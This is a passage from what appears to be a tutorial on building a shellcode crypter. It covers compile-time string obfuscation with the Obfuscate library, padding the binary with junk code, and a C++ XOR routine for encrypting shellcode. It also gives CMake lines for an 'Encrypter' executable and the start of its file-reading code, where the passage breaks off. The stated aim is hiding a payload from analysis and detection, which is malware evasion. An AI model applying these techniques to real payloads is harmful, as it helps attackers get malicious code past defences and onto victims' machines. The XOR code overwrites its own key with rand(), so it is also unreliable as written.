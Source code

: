 ### In the next steps, we will add string obfuscation and code littering.

To encrypt strings in Compile Time, we will use the repository [Obfuscate](https://github.com/adamyaxley/Obfuscate) 
Copy the code from obfuscate.h or download it and throw it into our project, then #include "obfuscate.h"
To obfuscate a string, it will be enough to write AY_OBFUSCATE and put our string there.

As we can see, just a cloud of garbage code was added to those places where it was empty and the code stretched almost 5 times.

For the cipher of the shellcode itself, you can make the simplest xor method, the Integer value will act as the key, as well as slightly confuse the code by adding rand(), the code will be universal for both decryption and encryption, in theory you can still screw compression, but we already have it in the bagel and it works fine.

```
std::string EncryptDecrypt(const std::string& input, int key) { 
    std::string output = input;
    char a;
    key = rand() % 99;
    for(size_t i = 0; i < input.length(); ++i) {
        a = input[i];
        int b = static_cast<int>(a);
        b ^= key;
        a = static_cast<char>(b);
        output[i] = a;
    }
    return output;
}
```

Now let's create a program for this code to encrypt the shellcode we received.

To do this, add to CMakeLists.txt a few new lines to compile the newly minted .exe encoder

```
set(CMAKE_EXE_LINKER_FLAGS "-Wl,--exclude-all-symbols -static -municode")

add_executable(Encrypter encrypter.cpp)
```

And we are writing code to encrypt the file, to begin with, why did we add the unicode flag? because if the user is an Arab, then he will have far from ansi lines and the application will simply not work and a folder with Latin letters will be needed C:/latin .

```
#include <fstream>

#include <string>

#include <random>

#include <iostream>

#include "library.h"

#include "base64.h"



using namespace std;

std::string read_file_str(std::wstring path) {

std::wifstream wfile = std::wifstream(path.c_str(), std::ios_base::binary | std::ios_base::ate);

```
